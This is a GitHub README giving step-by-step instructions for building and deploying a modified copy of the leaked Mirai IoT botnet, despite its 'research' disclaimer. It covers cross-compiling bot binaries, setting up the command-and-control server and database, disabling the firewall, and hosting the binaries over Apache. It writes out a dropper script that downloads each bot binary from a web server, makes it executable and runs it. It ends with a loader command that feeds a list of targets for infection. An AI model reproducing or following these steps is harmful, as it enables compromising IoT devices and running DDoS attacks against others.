 # Mirai BotNet to Tashiro(未来砲)
<!--

  ,～（（((((((～～､
  (  ＿（（ (((＿　)
  |/　~^^＼)／^^~ヽ|
  |　　＿　《　＿   |
 (|-(_//_)-(_//_)-|）
  |　　 　厶､　　   |     ／￣￣￣￣￣￣￣￣￣￣￣
  ＼   ||||||||　／　　＜  Mirai BotNet to Tashiro.
    ＼_________／       ＼＿＿＿＿＿＿＿＿＿＿＿

-->
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code

I was referring to this for a moment.<br />
https://gist.github.com/ppoffice/86beb0f90de5aeec75aabd517ebc5e43

## Requirements
* To be able to use vi.
* Do not run in WSL.(I tried, but I couldn't use mysql or compile it.)
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution.

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.<br />
https://programmer.group/mirai-botnet-environment-setup-steps.html <br />
https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# sudo apt-get install git gcc golang electric-fence mysql-server mysql-client
```
If you are using debian, you cannot install mysql as it is, so please install it in the following way.
```
# wget https://dev.mysql.com/get/mysql-apt-config_0.8.22-1_all.deb
# sudo dpkg -i mysql-apt-config_0.8.22-1_all.deb
# sudo apt update && sudo apt install mysql-server mysql-client
```
After installing the dependency tools, follow the steps below.
```
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh release telnet
```
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
If you have iptbales/ip6tables or any firewall install disable it.
```
# sudo service iptables stop
```
Database setup<br />
※It will ask you to set a password, make sure you remember this.
```
# sudo /usr/bin/mysql_secure_installation
```
Go to `cd cnc/` and replace the root password you just entered with the MySQL_Password.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"
```
Add users to mysql.
```
# cd ../scripts
# sudo mysql -uroot -pMySQL_Password
> INSERT INTO users VALUES (NULL, 'tashiro', 'mystrongestpassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# sudo service mysql restart
```
Once you restart the mysql server, go to your debug folder ./mirai/release, you will seen a compiled file named cnc execute it.
```
# cd ../mirai/release
# sudo ./cnc
```
Open a new window and execute the following command
```
# cd ..
# cp prompt.txt release/
```
Then, use telnet to connect to your IP address.<br />
The following is an example of running the telnet command.
```
# telnet 192.168.19.19
```
OK, well use this user name and password to login in this case the username is : `tashiro` and the password is : `mystrongestpassword`

again in you server Terminal some like Putty or mobaxterm.<br />
Go to this directory ../Mirai-Source-Code/mirai/release
```
# cd ./Mirai-Source-Code/mirai/release
```
Next, install and start the Apache server.
```
# sudo apt install apache2
# sudo service apache2 start
```
copy the mirai files at the apache source.
```
# sudo cp mirai.* /var/www/html
```
well we need to delete the index to show the index file directory on browser.
```
# rm /var/www/html/index.html
```
Then open a browser and enter http://localhost or your IP address and see if the file appears.

Go to /var/www/html and create bins.sh.
```
# cd /var/www/html
# touch bins.sh
```
Next, open `bins.sh` and write the following (replace `IP OR HOSTNAME:80` with the vps IP you have or your own IP address).
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done
```
If you have vps, please upload /var/www/html using sftp.<br />
※If you do not have a vps, you may leave it as is.<br />
Please check by yourself if it really uploaded, I don't know much about vps or anything like that.

Now restart the Apache server.
```
# sudo service apache2 restart
```
Next, to build the loader, go to Mirai-Source-Code-plus/loader/ and build the loader.<br />
※Omit commands to move.
```
# chmod +x build.sh
# ./build.sh
```
and after than type this code but put you filename here --> file.txt before paste
```
# cat file.txt | ./loader wget http://dyn.com
```
This completes the installation. :)<br />
Thank you for your hard work. Take a break and have a cup of coffee or something.
